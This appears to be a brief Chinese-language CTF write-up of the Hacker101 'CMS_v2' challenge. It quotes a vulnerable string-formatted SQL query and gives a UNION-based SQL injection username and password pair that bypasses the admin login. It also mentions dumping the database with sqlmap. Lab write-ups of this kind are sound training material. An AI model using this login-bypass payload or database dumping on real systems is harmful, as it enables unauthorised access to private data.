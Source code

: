 ```yaml
---
layout: post
title:  "CMS_v2"
subtitle: "hacker101"
date:   2020-03-23 23：14
categories: [pentest]
---
```

<!-- more -->
# CMS_v2

[https://ctf.hacker101.com/ctf/launch/3](https://ctf.hacker101.com/ctf/launch/3)

* * *

## Flag 1

`if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:`

cur.execute:python执行数据库操作

数据库语句:

`SELECT password FROM admins WHERE username=\'%s\'`

> 查询password

字符处理

`request.form['username'].replace('%', '%%')`

> 用%%替代%处理username然后传入参数值

判断条件是

`cur.execute == 0`

username

`admin'and '1'='2' union select 0 from admins`

password

`0`

## Flag 2

get--> post

# Flag 3

flag1 是 password，但是username在哪里还没有找到

sqlmap直接把数据库dump出来，简单粗暴
